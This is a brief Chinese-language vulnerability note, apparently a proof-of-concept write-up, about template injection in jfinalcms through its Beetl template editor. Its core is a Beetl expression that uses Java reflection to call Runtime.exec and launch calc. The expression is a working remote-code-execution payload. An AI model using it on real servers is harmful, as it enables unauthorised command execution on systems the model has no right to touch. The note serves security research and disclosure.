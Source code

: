 在 jfinalcms 模板使⽤的是 beetl，在后台提供修改模块的功能

<img src=".\图片\Snipaste_2023-10-26_15-40-18.png" alt="Snipaste_2023-10-26_15-40-18" style="zoom:67%;" />

可以全网搜索文章，再测试

```
${@java.lang.Class.forName("java.lang.Runtime").getMethod("exec",@java.lang.Class.forName("java.lang.String")).invoke(@java.lang.Class.forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null),"calc")}
```

<img src=".\图片\Snipaste_2023-10-26_15-45-58.png" alt="Snipaste_2023-10-26_15-45-58" style="zoom:67%;" />
